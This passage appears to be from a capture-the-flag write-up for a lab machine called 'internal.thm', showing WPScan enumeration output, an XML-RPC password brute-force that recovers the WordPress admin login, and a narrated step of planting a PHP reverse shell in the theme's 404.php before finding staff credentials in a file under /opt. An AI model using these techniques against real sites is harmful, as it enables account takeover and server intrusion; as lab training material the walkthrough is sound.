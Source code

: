 ```
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=======================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / princess7 Time: 00:04:50 <                                    > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: REDACTED

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May 14 11:49:44 2021
[+] Requests Done: 4026
[+] Cached Requests: 37
[+] Data Sent: 2.036 MB
[+] Data Received: 2.31 MB
[+] Memory used: 260.168 MB
[+] Elapsed time: 00:05:07
```

We were able to crack the password for admin and are informed the admin email registered is admin@internal.thm. Our wpscan also informed us that the theme being used is twentyseventeen so we can navigate to the theme editor and edit the 404.php page to now contain php reverse shell. We set up our listener and navigate to http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php.

#Initial Foothold

We have established a initial foothold as the www-data user but can't really find any escalation vectors through sudo, cronjobs, or SUID binaries. So we do some enumeration and eventually find the following in /opt
```
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:REDACTED
```
